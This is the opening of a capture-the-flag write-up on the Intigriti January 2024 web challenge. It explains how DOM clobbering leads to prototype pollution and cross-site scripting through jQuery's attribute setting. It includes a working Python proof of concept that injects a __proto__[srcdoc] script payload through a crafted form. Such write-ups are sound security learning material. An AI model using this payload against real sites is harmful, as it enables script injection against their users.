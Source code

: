 # Intigriti 0124 Chall Writeup (Intended Solution)

### Author: Disna

## tl;dr
DOM clobbering into prototype pollution (PP) into PP gadget discovery

## Background

I spent the last week poking at @Kevin_Mizu's Intigriti challenge for Jan. 2024. While the challenge was open, no one had solved it the intended way; instead, while people correctly abused the dom clobbering vulnerability to trigger prototype pollution (as was hinted at by Intigriti's tweets _here_ and _here_), all solutions (mine included) instead abused a `for ... in ...` loop while jQuery iterated over a list of HTML attributes to set, injecting either `onload` or `srcdoc` attributes against an `iframe` to trigger xss.


```html
<iframe id="homepage" hidden></iframe>
```
```javascript
if (repo.homepage && repo.homepage.startsWith("https://")) {
    $("#homepage").attr({
        "src": repo.homepage,
        "hidden": false
    });
};
```
_vulnerable code in question_

```python
def main():
    r = requests.get(f"{CHALL_URL}/", params={
        "name": f"""
<form id="search">
    <input name="q" value="shouldnotmatchanyrepo" />
    <input name="__proto__[srcdoc]" value="{('<script>alert(document.domain)</script>')}" />
    <input name="__proto__[srcdoc]" value="placeholder" />
    <input name="__proto__[owner]" value="placeholder2" />
    <input name="__proto__[homepage]" value="https://example.com" />
</form>
""".strip(),
        "search": f"""a"""
    })
    print(r.url)
```
_my POC at the time_
<details><summary><i>explanation of the original exploit</i></summary></details>


Welp, @Kevin_Mizu commented out the code that assigned attributes to `srcdoc` and [re-released the chall](https://vxtwitter.com/kevin_mizu/status/1747566277244387636), so we get to work.
